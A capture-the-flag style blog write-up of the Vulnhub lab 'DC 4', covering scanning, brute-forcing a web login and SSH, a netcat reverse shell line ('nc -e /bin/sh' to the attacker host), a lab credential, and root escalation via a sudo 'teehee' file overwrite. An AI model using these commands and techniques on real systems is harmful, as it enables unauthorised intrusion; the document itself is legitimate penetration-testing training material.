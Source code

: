 ```yaml
---
layout: PostSimple
date: 2019-11-18
title:     "Vulnhub - DC 4"
tags: ['easy','hydra','intruder']
categories: Vulnhub
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/1.1.png)
We are going to pwn DC 4 by DCAU7 from Vulnhub


## Description
>DC-4 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.
Unlike the previous DC releases, this one is designed primarily for  beginners/intermediates. There is only one flag, but technically,  multiple entry points and just like last time, no clues.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
For beginners, Google can be of great assistance, but you can always  tweet me at @DCAU7 for assistance to get you going again. But take note:  I won't give you the answer, instead, I'll give you an idea about how  to move forward.


Download Link: [https://www.vulnhub.com/entry/dc-4,313/](https://www.vulnhub.com/entry/dc-4,313/)

Lets Begin with our Initial Scan

## Nmap Scan Results

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Looks like only HTTP port is open so lets start our Gobuster

## Gobuster Result

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.8
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/26 19:35:19 Starting gobuster
===============================================================
/css (Status: 301)
/images (Status: 301)
/index.php (Status: 200)
===============================================================
2019/11/26 19:35:20 Finished
===============================================================
```

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/1.png)

It looks like login Page 
So i tried some normal sql injection but none worked so lets try bruteforce
We can use Burp Intruder for that

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/2.png)

Attack type : Cluster Bomb

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/3.png)

Now in payload , load wordlist and start attack!

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/4.png)

This one gives different length it might be the password [br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/5.png)

And yes I logged in.
After login I got a page Command.php[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/6.png)[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/7.png)

## Getting Shell

It looks like , it executes system commands.
So I intercept the command with burp and got a reverse shell.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/8.png)

> nc -e /bin/sh 10.0.2.18 1234 


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/9.png)

We got a Shell!!

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/10.png)

So while searching for anything usefull i found ``old-passwords.bak``

Since i found it in jim directory, lets bruteforce with ``jim``

## Getting User Jim

Lets start bruteforcing the ssh port using hydra

> hydra - a very fast network logon cracker which supports many different services

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/11.png)

we found the password is ``jim:jibril04``

Found some users too

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/12.png)

## Getting User Charles

While Checking jim directory there is ``mbox``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/13.png)

Since it looks like mail we check ``/var/mail``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/14.png)

It gives password for ``charles`` I su to charles

## Privilege Escalation

``sudo -l`` shows we can run ``teehee`` with root permission

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/15.png)

It looks like we can overwrite any file so i created new user with root permission without password!

Got ROOT !!

``Flag``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc4/16.png)






